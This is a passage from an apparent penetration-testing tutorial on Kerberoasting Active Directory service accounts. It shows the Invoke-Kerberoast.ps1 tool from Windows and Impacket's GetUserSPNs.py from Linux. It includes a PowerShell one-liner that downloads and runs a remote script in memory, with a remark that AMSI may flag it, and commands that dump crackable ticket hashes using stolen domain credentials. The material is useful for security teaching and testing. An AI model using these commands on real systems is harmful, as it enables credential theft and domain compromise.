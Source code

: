 

There is also the ability to Roast users in a foreign trust domain providing the trust relationships allow you but you can check out the Rubeus Repo for full explanation on that. It's really cool. 



#### [](#header-4)Invoke-Kerberoast.ps1



The final script I will talk about in the Windows Section is `Invoke-Kerberoast.ps1` which isn't nearly as powerful as `Rubeus` or `Powerview` hence why I will not split it up into Enumeration/Exploit like previous sections. 

`Invoke-Kerberoast.ps1`. can be Invoked and executed using the below `one-liner`

```powershell
PS C:\Temp > IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast

#Download Invoke-Kerberoast.ps1 into Memory (AMSI May Flag)
IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")

#Invoke-Kerberoast and Output to Hashcat Format

Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```



### [](#header-3)From Linux



Kerberoasting from Linux is a little but different as we are most likely not authenticated to the domain in anyway so will have to pass a stolen Kerberos ticket through for authentication or domain credentials.  

In my experience I have found Kerberoasting from a **Domain-Joined Machine** is way way easier and typically hassle free however sometime we don't have the option. 



To enumerate Users with `SPN` value set we can use one of `Impackets` great scripts `GetUserSPN's.py` 

*https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py*

If you haven't heard of Impacket by now it's a collection of python scripts for attacking Windows and has some seriously dangerous scripts in it's repo. 

Armed with `GetUserSPNs.py` and a already pwned `Domain Users` credentials we can simply run the below

```python
m0chan@kali:/scripts/> python GetUserSPNs.py m0chanAD/pwneduser:pwnedcreds -outputfile hashes.kerberoast
```
